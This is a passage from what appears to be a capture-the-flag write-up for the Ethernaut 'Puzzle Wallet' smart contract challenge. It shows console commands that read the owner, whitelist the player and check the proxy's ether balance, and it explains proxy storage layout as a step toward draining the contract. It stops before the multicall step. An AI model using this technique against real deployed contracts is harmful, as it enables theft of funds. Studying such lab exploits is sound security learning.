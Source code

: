 ```javascript
> await contract.owner();
'0x34B4ab0479D10FdbAA3b52C8371C7B1BE5c73bb7'
```

### 2. Adding player to whitelist

Now, let's add player to whitelist so we can call `execute` function to drain the contract so we can eventually update `maxBalance`.

```javascript
> await contract.addToWhitelist(player);

> await contract.whitelisted(player);
// true
```

Just to clarify, all storage variables (`owner`, `maxBalance`, `whitelisted`, and `balances`) are actually existing in **`PuzzleProxy`** contract.

Do not forget **`PuzzleWallet`** is just an Implementation Contract!

In Proxy Pattern, we use **Proxy Contract**'s storage!

### 3. Reducing the balance to 0

As just mentioned, the balance we are trying to reduce to `0` is actually balance of **`PuzzleProxy`** contract.

Let's check how much the contract has.

```javascript
> await web3.eth.getBalance(contract.address);
// '1000000000000000'
```

Our contract has `0.001` ether.

Now, let's drain that `0.001` eth.

```solidity
function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
    require(balances[msg.sender] >= value, "Insufficient balance");
    balances[msg.sender] -= value;
    (bool success, ) = to.call{ value: value }(data);
    require(success, "Execution failed");
}
```

In require statement it says `balances[player]` should be greater than or equal to the `value`.

It's currently 0, so can't we call deposit with `0.001` ether and make `balances[player]` to be `0.001` ether?

Unfortunately not, because even if we withdraw `0.001 ether`, **the initial** `0.001 ether` will still be remaining.



Now, the only thing left to use is `multicall`  function.
